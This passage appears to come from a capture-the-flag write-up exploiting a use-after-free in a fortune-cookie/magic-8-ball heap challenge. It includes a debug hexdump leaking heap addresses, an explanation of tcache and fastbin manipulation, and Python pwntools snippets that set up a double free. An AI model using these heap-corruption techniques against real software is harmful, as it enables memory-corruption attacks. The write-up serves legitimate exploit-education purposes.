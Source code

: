 ```
debug output:
[DEBUG] Received 0x231 bytes:
    00000000  20 59 6f 75  72 20 51 75  65 73 74 69  6f 6e 3a 20  │ You│r Qu│esti│on: │
    00000010  20 20 20 20  20 20 4f 68  20 4d 61 67  69 63 20 38  │    │  Oh│ Mag│ic 8│
    00000020  20 42 61 6c  6c 2c 20 41  41 41 41 41  41 41 41 41  │ Bal│l, A│AAAA│AAAA│
    00000030  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  41 41 41 41  41 41 0a 10  │AAAA│AAAA│AAAA│AA··│
    00000080  b5 21 4f 56  0a 20 4d 61  67 69 63 20  38 20 62 61  │·!OV│· Ma│gic │8 ba│

output:
0x5630bdc8c000
0x5630bdc8c020
```

### Flip the UAF
There are two requirements for the `globals` overwrite strategy. The first is a corruptible 0x20 chunk to overwrite its `fw` pointer and the second is that this chunk resides in fastbins to avoid forging a doubly-linked list to pass the `p->fw->bk == p` check when allocating from tcache. The problem is the current UAF is in the 0x80 bin, not the 0x20 bin. Therefore, a UAF must be set up and pushed into the unsorted bin, making sure it is not sorted into the 0x80 (or larger) smallbin.  Some clever heap feng shui accomplishes this using a UAF on the last cookie index. Setting up the UAF is trivial and just involves filling tcache bins and freeing the last cookie. Pushing it to unsorted bins is more difficult, since there is no function that directly `malloc`s and `free`s a large chunk. A trick to do so is simply allocate a large input in the main menu prompt, which allocates and frees a temporary storage buffer. Since a `0x20` allocation is smaller than the `0x80` smallbin, any `calloc` call (since `calloc` bypasses tcache) pulls from unsorted bins if no fastbins or smallbins of matching size are available. 

```python
# alloc and free UAF in last index
resp = cookie()
assert resp == b' You have no room to save any more fortunes. Please choose one to delete\n'  
p.send(b'32\n')
p.recvuntil(b' > ')

# consolidate to push UAF chunk into unsorted bins
p.send(b'1' * 0x600 + b'\n')
```

Choosing the last index for the UAF allows the user to free this pointer multiple times due to the aforementioned vulnerability. This is important as it provides access to the dangling pointer in more than one locating. Allocating a `0x20` astrological sign allocates the UAF in the global variable, and freeing it again through the fortune cookie list also puts it in fastbins.

```python
# free UAF in index 32 to populate fastbins pointers, alloc UAF from unsorted bins into sign
delete_8ball()
sign(b'Aries')

# free sign using UAF into 0x20 fastbins 
resp = cookie()
assert resp == b' You have no room to save any more fortunes. Please choose one to delete\n'  
p.send(b'32\n')
p.recvuntil(b' > ')
``` 
